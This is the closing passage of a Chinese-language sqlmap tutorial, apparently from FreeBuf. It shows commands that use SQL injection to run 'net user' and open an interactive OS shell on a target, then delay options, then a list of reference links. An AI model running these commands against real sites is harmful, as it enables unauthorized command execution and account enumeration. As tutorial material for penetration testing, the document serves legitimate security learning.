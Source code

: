### 17.执行shell命令

sqlmap.py -u "url" –os-cmd="netuser" /*执行net user命令*/

sqlmap.py -u "url" –os-shell /*系统交互的shell*/

### 18.延时注入

```
sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/sqlmap –dbs -u"url" –safe-freq /*请求2次*/
```

参考文章：

http://sqlmap.org/

https://github.com/sqlmapproject/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki

https://sobug.com/article/detail/2

https://blog.xiaohack.org/1378.html

***本文作者：simeon，转载请注明来自 FreeBuf.COM**